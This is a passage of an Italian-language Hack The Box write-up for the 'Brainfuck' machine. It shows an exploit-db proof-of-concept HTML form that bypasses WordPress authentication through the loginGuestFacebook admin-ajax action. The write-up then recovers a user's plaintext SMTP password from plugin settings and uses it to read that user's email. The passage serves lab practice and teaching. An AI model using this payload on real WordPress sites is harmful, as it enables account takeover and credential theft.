 Creo un file html (priv-esc.html) recuperando il POC da exploit-db e modifico l'URL con quello della macchina da attaccare:

```text
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="sth">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

Apro il file nel browser ed effettuo il login come admin.

<p align="center">
  <img src="/Immagini/Linux-Box/Brainfuck/brainfuck-5.png" />
</p>

Ora vado su _Brainfuck Ltd. > Themes > Settings > Easy WP SMTP_. Ispezionando la sorgente della pagina trovo la password dell'utente orestis in chiaro:

<p align="center">
  <img src="/Immagini/Linux-Box/Brainfuck/brainfuck-6.png" />
</p>

### 2) Accesso all'email dell'utente orestis

Ho usato [evolution](https://wiki.gnome.org/Apps/Evolution) come email client e una volta eseguito l'accesso, con le credenziali trovate precedentemente, ho trovato questa email:

<p align="center">
  <img src="/Immagini/Linux-Box/Brainfuck/brainfuck-7.png" />
</p>
